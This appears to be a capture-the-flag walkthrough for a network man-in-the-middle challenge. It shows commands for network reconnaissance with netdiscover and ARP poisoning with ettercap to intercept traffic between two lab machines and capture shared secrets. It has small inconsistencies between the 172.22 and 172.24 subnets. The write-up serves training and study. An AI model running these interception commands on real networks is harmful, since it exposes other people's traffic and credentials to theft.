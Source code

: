 # Solving the Network Man-in-the-Middle (MITM) Challenge

## **Step 1: Check Personal IP**
To find the IP address of your own machine:

1. Run the following command in your terminal:
   ```bash
   ifconfig
   ```
  ![image](https://github.com/user-attachments/assets/47d7cca7-863f-4f2b-bfdd-607370229cff)


## **Step 2: Check Commands You Can Run with `sudo -l`**
To find out which commands you can execute with `sudo`:

1. Run:
   ```bash
   sudo -l
   ```
  ![image](https://github.com/user-attachments/assets/5be2c5a2-14eb-4537-be2b-52c53c50f9b8)

   This confirms that you can run `netdiscover` without a password.

---

## **Step 3: Run `netdiscover` on Your Subnet**
To scan the network and identify active devices:

1. Run `netdiscover` with the subnet you found in Step 1:
   ```bash
   sudo netdiscover -r 172.24.0.0/24
   ```

2. Observe the output for a list of IP and MAC addresses on the network. Example:
   ```
   172.22.0.1    00:11:22:33:44:55   router
   172.22.0.2    11:22:33:44:55:66   unknown
   172.22.0.3    22:33:44:55:66:77   unknown
   ```

     ![image](https://github.com/user-attachments/assets/d834f8d8-2355-47d4-aafe-7c39f4d652a1)

   Here, we found:
   - **172.24.0.1**: Likely the router or switch.
   - **172.24.0.2** and **172.24.0.3**: Two machines communicating with each other.

---


## **Step 4: Intercept Traffic with Ettercap**
To perform ARP poisoning and intercept data:

1. Choose one of the target IPs (e.g., `172.22.0.2`) and the other machine (e.g., `172.22.0.3`).

2. Run `ettercap` to perform a MITM attack:
   ```bash
    sudo ettercap -T -M arp ///172.24.0.2```

4. Watch the intercepted traffic in real-time within the terminal.

---

By following these steps, you should be able to identify the target devices, intercept their communication, and analyze any secrets being shared between them.
